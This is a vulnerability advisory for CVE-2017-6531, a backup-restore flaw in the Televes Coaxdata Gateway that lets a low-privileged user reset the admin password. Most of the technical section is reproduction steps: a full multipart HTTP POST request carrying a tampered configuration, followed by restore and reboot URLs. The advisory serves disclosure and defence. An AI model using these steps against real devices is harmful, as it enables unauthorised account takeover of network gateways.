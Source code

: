 # CVE-2017-6531: Unrestricted backup restore in Televes Coaxdata Gateway 1Gbps
## Software
[![](https://img.shields.io/badge/Attack%20Vector-Remote-red?style=flat-square)]() [![](https://img.shields.io/badge/Privileges%20Required-Low-yellow?style=flat-square)]() [![](https://img.shields.io/badge/User%20Interaction-No-red?style=flat-square)]()

__Vendor:__ Televes<br>
__Vendor URL:__ https://www.televes.com<br>
__Versions affected:__ Televes Coaxdata Gateway 1Gbps<br>
__Discovered by:__ Pedro Andujar ([@pandujar](https://twitter.com/pandujar))<br>
__Public fix:__ Yes<br>
__Proof of Concept:__ No<br>


## Summary
A restricted user can update the configuration via "backup restore" functionality.

## Details
An authenticated low privileged user can modify the Admin password modifying the configuration file and updating it. Steps to reproduce:

1. Update configuration file with new password
```
POST /ReadFile.cgi HTTP/1.1

Host: <target>
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://<target>/resetrouter.shtml?DeviceInfo.AdditionalConfigVersion=default_cfg_v1.02.0014
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------66789582480853432558488077
Content-Length: 42533


-----------------------------66789582480853432558488077
Content-Disposition: form-data; name="cfgfile"; filename="s"
Content-Type: application/octet-stream


InternetGatewayDevice.DeviceInfo.X_ATH-COM_TeleComAccount.Password -m 1 -d <NEW_PASSWORD_HERE>


-----------------------------66789582480853432558488077
Content-Disposition: form-data; name="LoadCfgFile"

Load
-----------------------------66789582480853432558488077--

```

2. Restore the configuration

```http://<target>/result.shtml?method=LoadCfgFile&result=0&cfgfile=/tmp/s1488261988```

3. Reboot the device

```http://<target>/result.shtml?method=Reboot```

## Impact
This vulnerability can be exploited to do an account takeover of the admin user.

## Recommendation
Update the firmware to last version and block the adminsitration web interface on the internet or untrusted networks.

## Timeline
* 27/2/2017 - Reported vulnerability to vendor
* 28/2/2017 - Technical details sent on a 2nd contact attempt
* 01/3/2017 - Manufacturer acknowledge the issues and stats that restricted user would be removed from future releases
* 13/7/2017 - Follow up email related to resolution. No response
* 20/7/2017 - Public Disclosure

#

[![](https://img.shields.io/badge/www-blackarrow.net-E5A505?style=flat-square)](https://www.blackarrow.net) [![](https://img.shields.io/badge/twitter-@BlackArrowSec-00aced?style=flat-square&logo=twitter&logoColor=white)](https://twitter.com/BlackArrowSec) [![](https://img.shields.io/badge/linkedin-@BlackArrowSec-0084b4?style=flat-square&logo=linkedin&logoColor=white)](https://www.linkedin.com/company/blackarrowsec/)